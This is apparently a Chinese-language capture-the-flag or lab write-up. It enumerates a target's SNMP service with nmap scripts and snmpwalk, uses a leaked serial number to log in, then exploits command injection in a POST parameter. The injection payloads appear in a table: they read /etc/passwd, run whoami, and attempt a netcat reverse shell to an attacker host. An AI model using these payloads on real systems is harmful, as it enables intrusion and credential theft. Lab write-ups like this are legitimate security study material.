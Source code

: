 >nmap --script=snmp-processes.nse 10.10.10.105 -sU -p 161
nmap --script=snmp-netstat.nse 10.10.10.105 -sU -p 161
nmap --script=brute 10.10.10.105 -sU -p 161
nmap --script=snmp-hh3c-logins.nse 10.10.10.105 -sU -p 161
snmp-hh3c-logins.nse

#### snmpwalk
- https://github.com/grutz/h3c-pt-tools/blob/master/hh3c-usermib-disclosure.txt
- https://www.comparitech.com/net-admin/snmpwalk-examples-windows-linux/
- https://www.huawei.com/cn/psirt/security-advisories/hw-u_194647

MIB代表management information base，管理信息库，保存网络中各种设备的参数信息。

snmpwalk -h

snmpwalk -c public -v 1 10.10.10.105
请求OID对象标识
![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-12/14.PNG)

OID对象标识就是`3.6.1.2.1.47.1.1.1.1.11`
前六位`3.6.1.2.1.47`，代表主机或路由器的**操作系统**

---

snmpwalk -v1 -c public 10.10.10.105 .3.6.1.2.1.47.1.1.1.1.11
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB

---
-O OUTOPTS
n:  print OIDs numerically
snmpwalk -v1 -On -c public 10.10.10.105

.1.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
End of MIB

---

>snmpwalk -v1 -c public 10.10.10.105 1.3.6.1.2.1.47.1.1.1.1.11

snmpwalk -c public -v 1 10.10.10.105 system

>snmpwalk -v2c -c public 10.10.10.105 .1.3.6.1.2.1.47.4.2.1.2
iso.3.6.1.2.1.47.4.2.1.2 = No more variables left in this MIB View (It is past the end of the MIB tree)
尝试获取进程列表

用admin/NET_45JDX23，登陆后。burp抓包，发现一个post方式的远程命令执行，其中quagga，应该是用户名，此功能可能是检查某用户运行的所有进程。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-12/4.PNG)

| raw | base64 | info |
|---|---|---|
|quagga|cXVhZ2dh|
| root | cm9vdAo= | 
| `root|whoami` | xx|root|
| `root|cat /etc/passwd` | cm9vdHxjYXQgL2V0Yy9wYXNzd2Q= |
| whereis nc | /bin/nc | openbsd类型的nc，没有-e选项|
| `root|/bin/nc -e /bin/bash 10.10.14.7 9900`| xx| 无效
| `root|uname -a` | cm9vdHx1bmFtZSAtYQ== | Linux r1 4.15.0-24-generic #26-Ubuntu SMP Wed Jun 13 08:44:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux|
| `root|whereis wget` | xx| /usr/bin/wget|
| `pwd` | xx | /root|